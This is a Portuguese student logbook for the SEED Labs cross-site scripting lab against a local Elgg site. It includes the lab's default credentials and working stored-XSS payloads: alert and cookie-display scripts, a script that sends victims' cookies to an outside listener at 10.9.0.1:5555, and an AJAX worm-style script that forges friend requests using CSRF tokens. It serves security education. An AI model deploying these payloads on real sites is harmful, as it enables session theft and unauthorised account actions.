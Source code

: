 # Trabalho realizado na Semana #7

## Questão 1
### Configuração básica

- De forma a tornar este lab possível, temos de adicionar as entradas indicadas pelo guião, no ficheiro `/etc/hosts/`, utilizando o comando `nano`, por exemplo, a partir da root.

![xss lab websites](resources/LOGBOOK7/xss_websites.png)   

- Seguidamente, após o download do _zip_ deste lab, corremos os comandos `dcbuild` e `dcup` de forma a executarmos os containers de docker.

Desta forma, conseguimos ter acesso à pagina `www.seed-server.com`:

![Elgg webpage](resources/LOGBOOK7/elgg_webpage.png)

De forma a testarmos os ataques, também nos é fornecido os utilizadores e as suas respectivas _passwords_ desta webpage.

| UserName | Password    |
|----------|-------------|
| admin    | seedelgg    |
| alice    | seedalice   |
| boby     | seedboby    |
| charlie  | seedcharlie |
| samy     | seedsamy    |


### Tarefa 1 : Posting a Malicious Message to Display an Alert Window

- Como referido no título desta tarefa, o nosso objectivo é conseguirmos executar um script a mostrar uma mensagem maliciosa. Para isso, podemos inserir o seguinte código malicoso, `<script>alert('XSS');</script>`, num dos `forms` do nosso utilizador.

![message script gif](resources/LOGBOOK7/message_script.gif)

Neste caso inserimos o **script malicioso** no perfil da **alice**, na secção _brief description_, e realmente verificamos que para qualquer utilizador, esta mensagem será mostrada.


### Tarefa 2 :  Posting a Malicious Message to Display Cookies

- Tal como na task anterior,o nosso objectivo é mostrar uma mensagem, mas neste caso com as cookies do utilizador. Para tal, inserimos o script malicioso `<script>alert(document.cookie);</script>`, num dos `forms` do nosso utilizador.

![cookie message gif](resources/LOGBOOK7/cookie_message.gif)


Da mesmo maneira que demos _display_ da mensagem `XSS`, agora aparecem as cookies do utilizador _logado_ ao aceder ao perfil da alice.


### Tarefa 3: Stealing Cookies from the Victim’s Machine

- Nesta _task_, o nosso objectivo é conseguir as cookies de outro utilizador através do _script_ que o guião nos fornece. Como tal, inserimos novamente o _script_ malicioso numa das secções do nosso _utilizador_ e esperamos que um dos outros _utilizadores_ aceda ao nosso perfil.

Código malicioso:
```html
<script>
document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + ' >');
</script>
```

Execução do ataque:

![steal cookies gif](resources/LOGBOOK7/steal_cookies.gif)

Como podemos verificar, conseguimos roubar as cookies do **boby**, sendo estas `3D9d15l2p41o2d4cn61u9a99j2qf`, através do acesso do perfil da **alice**.


### Tarefa 4: Becoming the Victim’s Friend

- De forma a concluirmos esta tarefa, é nos fornecido um script, ainda incompleto, com a intenção de sermos nós a procurar como podemos obter o _url_ do **HTTP request**  a ser enviado, após enviar um _friend request_ a um dos utilizadores.

- Para conseguirmos visualizar o _request_ a ser feito, utilizamos a ferramenta **HTTP Header Live** que nos indica qualquer request feito após uma ação do utilizador.

Neste caso, inspecionamos o _request_ feito após o envio de um pedido de amizade.

_URL_ Pedido de amizade:
![steal cookies gif](resources/LOGBOOK7/friend_request_url.gif)

Conseguimos obter o url `http://www.seed-server.com/action/friends/add?friend=58&__elgg_ts=1731067737&__elgg_token=_cVl2t--8uKfxwjsAh7Nog&__elgg_ts=1731067737&__elgg_token=_cVl2t--8uKfxwjsAh7Nog`.

Sendo assim, o nosso _URL_ do nosso script tem de ter um formato semelhante a esse.

Script utilizado:
```html
<script type="text/javascript">
window.onload = function () {
    var Ajax=null;

    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; ➀
    var token="&__elgg_token="+elgg.security.token.__elgg_token; ➁
    //Construct the HTTP request to add Samy as a friend.

    var friendId = "59"  // Id of the friend to add
    var sendurl= "http://www.seed-server.com/action/friends/add?friend=" + friendId + ts + token; 

    //Create and send Ajax request to add friend
    Ajax=new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
}
</script>
```
Para saber o id do utilizador `samy`, apenas precisamos de inspecionar o perfil dele na lista de membros. 

![user id](resources/LOGBOOK7/user_id.png)

Verificamos assim que o seu id é `59`.


Como tal, agora apenas precisamos de adicionar o script no perfil do `samy`, neste caso na secção `About Me`,  e qualquer utilizador que vá ao perfil dele ficará automaticamente amigo dele.


Demonstração do script:

![automatic friend gif](resources/LOGBOOK7/automatic_friend.gif)

Como podemos verificar, o utilizador `boby` fica amigo do `samy` mal entre no perfil dele, sem sequer adicioná-lo. 

- **Pergunta 1**: Explica o propósito das linhas ➀ e ➁, e o porquê de serem necessárias?

Estas linhas são necessárias, visto que, `token` refere-se ao token de segurança verdadeiro gerado pelo sistema, que garante a requesição legítima do request,sendo este único para cada sessão. Para além disso, `ts` refere-se ao momento em que o token foi gerado com o objectivo de confirmar que houve um _request_ recentemente. 
Sendo assim, para criar um request válido precisamos destas duas componentes no nosso _url_.

- **Pergunta 2**: Se a aplicação Elgg apenas fornecer o modo de Editor para o campo _About Me_, ou seja, se não for possível alternar para o modo de Texto, ainda seria possível lançar um ataque com sucesso? 

Muito dificilmente conseguiriamos um ataque bem sucedido, visto que, o mais provável é o modo de Editor "sanitizar" o conteúdo, de forma a impedir a injeção de scripts maliciosos.


## Questão 2

- **Há várias modalidades de ataques XSS (Reflected, Stored ou DOM). Em qual/quais pode enquadrar este ataque e porquê ?**

O ataque é `Stored XSS`, pois o script malicioso é armazenado no servidor (no campo do utilizador) e executado automaticamente quando a página do perfil dele é carregada. Não é `Reflected XSS`, pois o script não é refletido na resposta imediata do servidor, e não é `DOM-based XSS`, pois o código não é manipulado dinamicamente no DOM após a interação do utilizador.


